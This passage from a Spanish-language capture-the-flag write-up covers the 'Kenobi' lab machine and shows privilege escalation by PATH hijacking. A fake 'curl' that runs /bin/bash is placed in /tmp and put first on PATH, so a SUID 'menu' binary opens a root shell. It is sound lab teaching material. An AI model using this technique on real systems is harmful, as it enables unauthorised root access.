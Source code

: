 ```bash
kenobi@kenobi:/tmp$ echo "/bin/bash" > curl
kenobi@kenobi:/tmp$ chmod +x curl
```

Posteriormente, modificamos la variable de entorno `PATH`, que contiene las ubicaciones de los binarios en Linux y se busca de manera descendente para ejecutarlos. En este caso, debemos colocar nuestro directorio actual de trabajo (`/tmp`) como el primero en el `PATH` para asegurarnos de que el sistema encuentre nuestro binario malicioso antes que el legítimo. Para lograr esto, ejecutamos el siguiente comando:

```bash
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
```

Podemos observar que el directorio `/tmp` se encuentra ahora en la posición inicial del PATH, gracias al comando ejecutado anteriormente.

```bash
kenobi@kenobi:/tmp$ echo $PATH
/tmp:/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

En este escenario es fundamental tener en cuenta que el binario `menu` se ejecuta con los privilegios de superusuario (`root`). Si el usuario selecciona la opción 1 del menú, que implica la ejecución del comando `curl`, el binario `curl` se ejecutará como usuario root. Dado que previamente hemos creado una versión maliciosa del binario `curl` y hemos modificado la variable `PATH` para que el sistema busque primero en el directorio `/tmp`, se ejecutará nuestra versión maliciosa de `curl` en lugar de la original, lo que resultará en la apertura de una shell con permisos de usuario root.

```bash
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:/tmp# id       
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```

Finalmente, accedemos al directorio `/root` y leemos la última flag.

```bash
root@kenobi:/root# cat root.txt 
177b3cd8562289f3****************
```

¡Happy Hacking!

